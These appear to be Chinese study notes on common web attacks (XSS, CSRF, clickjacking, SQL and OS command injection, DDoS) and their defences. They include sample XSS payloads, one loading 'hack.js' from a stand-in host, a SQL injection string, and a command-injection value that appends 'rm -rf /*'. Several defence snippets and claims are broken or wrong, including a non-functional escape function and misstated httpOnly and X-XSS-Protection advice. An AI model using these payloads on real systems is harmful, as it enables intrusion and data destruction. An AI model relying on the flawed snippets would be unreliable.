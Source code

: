 # 网络安全
# 常见web攻击方式
 - XSS
    Cross-Site Scripting (跨站脚本攻击，因为缩写和css重叠所以叫XSS，跨站脚本攻击是指通过存在安全漏洞的web网站注册用户的浏览器内运行非法的非本站的HTML标签或JavaScript进行的一种攻击)

    跨站脚本攻击有可能造成以下影响:
      1. 利用虚假输入表单骗取用户信息
      2. 利用脚本窃取用户的Cookies值，被害者不知情的情况下下，帮助攻击者发送恶意请求
      3. 显示伪造的文章或图片

      - 反射性
        1. 普通 http://localhost:3000/?from=chain
        2. alert  尝试 http://localhost:3000/?from=<script>alert(1)</script>
        3. 获取cookie
        4. 短域名伪造

      - 存储型 - 存储到DB后读取注入
        1. <srcipt>alert(1)</script>
        2. <srcipt src="http:localhost:4000/hack.js"></script>

    危害:
      1. 获取页面数据
      2. 获取Cookies
      3. 劫持前端逻辑
      4. 发送请求
      5. 偷取网站的任意数据
      6. 偷取用户资料
      7. 偷取用户秘密和登录状态
      8. 欺骗用户

    防范手段
      1. ejs转义小知识
        - <% code %> 用于执行其中的js代码
        - <% =code %> 会对code进行html转义
        - <% -code %> 不会转义
      2. ctx.set('X-XSS-Protection', 0) 禁止XSS过滤

      3. CSP -内容安全策略  本质就是建立白名单，开发者告诉浏览器哪些外部资源是可以加载的。我们只要做一些配置规则，如何拦截是浏览器的事。
      (Content-Security-Policy: default-src 'self') 只允许加载本站资源
      (Content-Security-Policy: img-src https://* ) 只允许加载https协议图片
      (Content-Security-Policy: child-src 'none') 不允许加载任何资源
      4. 黑名单转义
      function escape(str){
        str = str.replace(/&/g, '&amp')
        str = str.repalce(/</g, '&lt')
        str = str.repalce(/>/g, '&gt')
        str = str.repalce(/"/g, '&quot')
        str = str.repalce(/'/g, '&#39')
        str = str.repalce(/`/g, '&#96')
        str = str.repalce(/\//g, '&#x2f')
      }
      5. 白名单转义
        const xss = require('xss')
        const html = xss('<h1>XSS demo</h1><script>alert(123)</script>')
      6. httpOnly
        值为true时，不允许传cookie， 为false时，允许传cookie

 - CSRF
     - CSRF(Corss-Site Request Forgery)
    1. 跨站请求伪造，是一种常见的Web攻击，它利用用户已经登录的身份，在用户毫不知情的情况下，以用户的名义完成非法操作。

    2. 危害
      - 利用用户登录状态
      - 用户不知情
      - 完成业务请求
      - 盗取用户资金(转账、消费)
      - 冒充用户发帖背锅
      - 损害网站名誉

    3. 防御
      1. 禁止第三方网站带Cookie-有兼容性问题
      2. Referer Check - Https 不发送referer
      3. 验证码

 - 点击劫持
    点击劫持是一种视觉欺骗的攻击手段，攻击者将需要攻击网站通过iframe嵌套的方式嵌入自己打网页中，应将iframe设置为透明，在页面中投出一个按钮诱导用户点击；

    防御:
      1. X-FRAME-OPTIONS  是HTTP响应头， 就是为了防御用ifname嵌套的点击劫持攻击
      2. DENY : 页面不允许通过iframe凡是展示
      3. SAMEORIGIN 页面可以在相同域名下通过iframe方式展示
      4. ALLOW-FROM 页面可以在指定来源的iframe中展示


 - SQL注入
    1'or'1'='1
    SELECT *
    FROM test.user
    WHERE username = '${ctx.request.body.username}' 
    AND password = AND password = '${ctx.request.body.password}'

    防御:
      1. 所有的查询语句建议使用数据库提供的参数化接口，参数化语句使用参数而不是将用户输入的变量嵌入到SQL语句中
      2. 对进入数据库的特殊字符 (', ", \, <, >, &, ;) 等进行转义处理escapeHtmlChar.js


 - OS命令注入
    OS命令注入和SQL注入差不多，只不过SQL注入是针对数据，SQ是针对操作系统

    例如: 以node.js为例
    const exec = require('mz/child_process).exec
    let params = {<!--用户输入的参数 -->}
    exec(`git clone ${params.repo})/some/path`

    <!-- 坏人 -->
    http://github.com/xx/xx.git && rm -rf /* &&

    防范: 对进入同上


 - 请求劫持
    DNS劫持

      DNS服务器 (DNS解析各个步骤) 被篡改，修改域名解析的结构，使得访问的不是预期的IP

    HTTP劫持
      运营商劫持
      应用层 HTTP Flood 此攻击类似于在多个不同的计算机反复按web浏览器刷新
      常见攻击方式: <!--钉钉白板.png >



 - DDOS (distributed denial of service)
    - [阮一峰DDOS](http://www.ruanyifeng.com/blog/2018/06/ddos.html)
    DDOS 不是一种攻击，而是一大类攻击的总称。它有几十种类型，新的攻击方法还在不断发明出来。网站运行的各个环节，都可以是攻击目标。只要把一个环节攻破，使得整个流程跑不起来，就达到了瘫痪服务的目的。

    防御: 
      1. 备份网站
      2. HTTP 请求的拦截
          HTTP 请求的特征一般有两种：IP 地址和 User Agent 字段。比如，恶意请求都是从某个 IP 段发出的，那么把这个 IP 段封掉就行了。或者，它们的 User Agent 字段有特征（包含某个特定的词语），那就把带有这个词语的请求拦截。
          - 专用硬件
          - 本机防火墙
          - Web 服务器
      3. 带宽扩容
      http://www.ruanyifeng.com/blog/2018/06/ddos.html

 # 防范方法
    - 密码安全 - 密码加固
        1. 提示用户密码复杂度不够
        2. 密码加盐

    - 人机识别

    - 密码学 (对称与非对称)
        摘要  -md5 shal sha256 -hash
        对称
          DES

        非对称
          产生一对秘钥
          公钥负责加密
          私钥负责解密

    - 传输安全 - HTTPS
    - NOdeJS安全框架 hemelt
    - CSP策略

C:/javascript_fullstack/woniu-Teacher/network-security/test(1).sql